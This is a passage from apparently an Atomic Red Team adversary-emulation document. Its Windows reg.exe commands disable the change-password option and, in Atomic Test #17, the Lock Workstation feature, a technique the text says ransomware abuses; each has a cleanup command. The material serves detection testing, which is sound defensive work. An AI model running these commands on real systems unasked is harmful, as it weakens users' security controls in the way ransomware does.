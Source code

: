 




#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableChangePassword /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableChangePassword /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #17 - Disable Windows Lock Workstation Feature
Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows Lock workstation feature.
See how ransomware abuses this technique- https://www.bleepingcomputer.com/news/security/in-dev-ransomware-forces-you-do-to-survey-before-unlocking-computer/

**Supported Platforms:** Windows


**auto_generated_guid:** 3dacb0d2-46ee-4c27-ac1b-f9886bf91a56






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableLockWorkstation /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableLockWorkstation /f >nul 2>&1
```





<br/>
<br/>
